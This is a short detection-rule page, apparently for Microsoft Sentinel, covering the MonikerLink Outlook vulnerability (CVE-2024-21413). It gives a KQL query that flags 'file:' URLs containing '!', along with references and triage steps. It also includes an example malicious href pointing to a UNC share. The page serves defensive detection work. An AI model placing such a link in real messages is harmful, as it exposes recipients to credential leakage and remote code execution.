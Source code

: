 ### T1204 - MonikerLink - User Execution  

####  DESCRIPTION  
Detects potential MonikerLink exploit CVE-2024-21413 activity by looking for certain strings in URLs  

**Example:**  
```
"href="file:///\\10.10.111.111\test\test.rtf!something">CLICK ME</a>*"
``` 

**Related**  
Microsoft Outlook CVE-2024-21413    

**Reference**  
https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture    
https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file   


####  ATT&CK TACTICS
{{mitre("T1204")}}

Data Source(s): [Network Traffic](https://attack.mitre.org/datasources/DS0029/)

####  SENTINEL RULE QUERY  

~~~  
union isfuzzy=true 
(EmailUrlInfo
| where Url matches regex @".*file:.*!"),
(union  DeviceNetworkEvents, DeviceEvents
| where RemoteUrl matches regex @".*file:.*!")  
~~~  


####  Triage  
1. Inspect URL links to identify malicious activity    
 


####  Version  
Version 1.0 (date 19/2/2024)

